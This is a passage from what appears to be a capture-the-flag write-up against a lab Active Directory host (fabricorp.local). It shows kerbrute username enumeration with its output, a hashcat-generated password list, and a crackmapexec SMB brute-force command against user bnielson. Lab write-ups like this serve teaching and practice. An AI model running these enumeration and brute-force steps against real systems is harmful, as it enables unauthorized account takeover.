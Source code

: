 Because port 88 (Kerberos) is open, I can use Kerbrute and verify the usernames I found in the log files. 

{% highlight sh %}
~/toolbox/kerbrute/dist/kerbrute_linux_amd64 userenum -d fabricorp.local --dc fuse users
{% endhighlight %}

{% highlight text %}

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9dad6e1) - 11/05/20 - Ronnie Flathers @ropnop

2020/11/05 08:33:06 >  Using KDC(s):
2020/11/05 08:33:06 >  	fuse:88

2020/11/05 08:33:06 >  [+] VALID USERNAME:	 administrator@fabricorp.local
2020/11/05 08:33:06 >  [+] VALID USERNAME:	 pmerton@fabricorp.local
2020/11/05 08:33:06 >  [+] VALID USERNAME:	 sthompson@fabricorp.local
2020/11/05 08:33:06 >  [+] VALID USERNAME:	 bhult@fabricorp.local
2020/11/05 08:33:06 >  [+] VALID USERNAME:	 tlavel@fabricorp.local
2020/11/05 08:33:06 >  [+] VALID USERNAME:	 bnielson@fabricorp.local
2020/11/05 08:33:06 >  Done! Tested 6 usernames (6 valid) in 0.092 seconds

{% endhighlight %}

Every user is valid, but I can't go further with Kerberos because I don't have any password yet.

There is an interesting file called <strong><cite>'New Starter - bnielson'</cite></strong> and another one called <strong><cite>'Fabricorp01.docx'</cite></strong>. I should investigate and check if the user bnielson has some sort of default password. 

I should've tried directly the password <strong><cite>Fabricorp01</cite></strong> but for some reasons it didn't pop in my head so I tried different password lists but nothing worked. I decided to create a custom list based on the domain name (fabricorp).

For that, I used <strong><cite>Hashcat</cite></strong>. 

{% highlight sh %}
echo "fabricorp" > tmp-password && cat tmp-password
fabricorp
{% endhighlight %}

{% highlight sh %}
hashcat --force --stdout tmp-password -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule > tmp-passwords && wc -l tmp-passwords
1155 tmp-passwords
{% endhighlight %}

Then I used <strong><cite>crackmapexec</cite></strong> to brute force the password for the user bnielson.

{% highlight sh %}
crackmapexec smb fuse -u bnielson -p passwords
{% endhighlight %}
